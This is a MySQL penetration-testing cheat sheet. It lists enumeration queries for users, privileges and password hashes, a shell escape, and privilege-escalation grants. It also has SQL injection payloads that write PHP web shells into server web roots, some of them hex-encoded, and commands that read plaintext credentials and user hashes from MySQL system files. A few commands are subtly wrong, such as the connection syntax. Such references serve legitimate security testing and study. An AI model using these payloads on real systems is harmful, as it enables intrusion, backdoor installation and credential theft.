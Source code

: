 # Basic Information
MySQL is an open-source relational database management system (RDBMS) used to store, manage, and retrieve data.

## Connection

```sh
# mysql-client
mysql -u <hostname> -u root
mysql -u <hostname> -u root@localhost
```

# Enumeration

```sql
-- Version
SELECT version();
SELECT @@version();

-- Get databases
SHOW databases;

-- User
SELECT user();

-- Get users, permissions and hahes
SELECT * FROM mysql.user;

-- Permission
SHOW GRANTS;
SHOW GRANTS FOR "root"@"localhost";
SHOW GRANTS FOR CURRENT_USER();

-- From DB
SELECT * FROM mysql.user WHERE user="root";

-- Get users with file_priv
SELECT user,file_priv FROM mysql.user WHERE file_priv="Y";

-- Get users with Super_priv
SELECT user,Super_priv FROM mysql.user WHERE Super_priv="Y";

-- Database Name
SELECT database(); 

-- List functions
SELECT routine_name FROM information_schema.routines WHERE routine_type = "FUNCTION";

-- @Functions not from sys. db
SELECT routine_name FROM information_schema.routines WHERE routine_type = "FUNCTION" AND routine_schema != "sys";

-- Get shell
\! sh
```



  

# Privilege Escalation

## Create User and Give Privileges

```sql
CREATE USER test identified BY "test";

GRANT SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by "mysql" WITH GRANT OPTION;
```


## Command Execution

```sql
[...] UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"

[...] UNION SELECT '' INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '<?php phpinfo();?>'

[...] UNION SELECT 1,2,3,4,5,0x3c3f70687020706870696e666f28293b203f3e into outfile 'C:\\wamp\\www\\pwnd.php'-- -

[...] union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'


[...] UNION SELECT 0xPHP_PAYLOAD_IN_HEX, NULL, NULL INTO DUMPFILE 'C:/Program Files/EasyPHP-12.1/www/shell.php'

[...] UNION SELECT 0x3c3f7068702073797374656d28245f4745545b2763275d293b203f3e INTO DUMPFILE '/var/www/html/images/shell.php';
```


# Extracting MySQL Credentials From Files

Inside _/etc/mysql/debian.cnf_ you can find the **plain-text password** of the user **debian-sys-maint**

```bash
cat /etc/mysql/debian.cnf
```

You can **use these credentials to login in the MySQL database**.

Inside the file: _/var/lib/mysql/mysql/user.MYD_ you can find **all the hashes of the MySQL users** (the ones that you can extract from mysql.user inside the database)_._

You can extract them doing:

```bash
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```


# References

- [https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mysql.html](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mysql.html)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)
- [https://dev.mysql.com/doc/](https://dev.mysql.com/doc/)
- [ https://learn.microsoft.com/en-us/sql/?view=sql-server-ver17](  https://learn.microsoft.com/en-us/sql/?view=sql-server-ver17)